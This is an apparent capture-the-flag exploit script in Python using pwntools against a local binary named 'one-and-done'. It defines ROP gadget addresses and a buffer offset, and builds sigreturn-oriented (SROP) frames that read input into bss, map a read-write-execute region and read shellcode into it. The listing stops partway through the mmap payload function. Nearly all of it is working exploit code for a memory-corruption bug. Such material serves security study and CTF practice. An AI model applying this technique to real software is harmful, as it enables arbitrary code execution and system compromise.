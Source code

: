 exp: 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./one-and-done',checksec=False)

p = process()

offset = 0x120
pop_rdi = 0x0000000000401793
pop_rsi = 0x0000000000401713
pop_rdx = 0x0000000000401f31
syscall_ret = 0x0000000000401ab2
pop_rax = 0x000000000040100b
bss = 0x404780
gets_addr = 0x0000000000401230
offset = 0x128
call_rax = 0x0000000000402390
gets = 0x401795
#mmap(0x0, 0x1000000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE | MAP_FIXED)
def read_main():
    payload = p64(pop_rax) + p64(0xf)
    payload += p64(syscall_ret)
    frame = SigreturnFrame(arch="amd64",kernel="amd64")
    frame.rax = 0
    frame.rdi = 0
    frame.rsi = bss
    frame.rdx = 16
    frame.rsp = bss
    frame.rip = syscall_ret
    payload += bytes(frame)
    return payload

def read_shellcode():
    payload = p64(pop_rax) + p64(0xf)
    payload += p64(syscall_ret)
    frame = SigreturnFrame(arch="amd64",kernel="amd64")
    frame.rax = 0
    frame.rdi = 0
    frame.rsi = 0x200000
    frame.rdx = 0x300
    frame.rsp = bss
    frame.rip = syscall_ret
    payload += bytes(frame)
    payload += p64(call_rax)
    return payload

def mmap():
    payload = p64(pop_rax) + p64(0xf)
    payload += p64(syscall_ret)

    frame = SigreturnFrame(arch = "amd64", kernel="amd64")
    frame.rax = 0x9
    frame.rdi = 0x200000
    frame.rsi = 0x100000
    frame.rdx = constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC
    frame.r10 = constants.MAP_ANONYMOUS | constants.MAP_PRIVATE | constants.MAP_FIXED
    frame.r8 = -1
    frame.rip = syscall_ret
    frame.rsp = 0x404898

```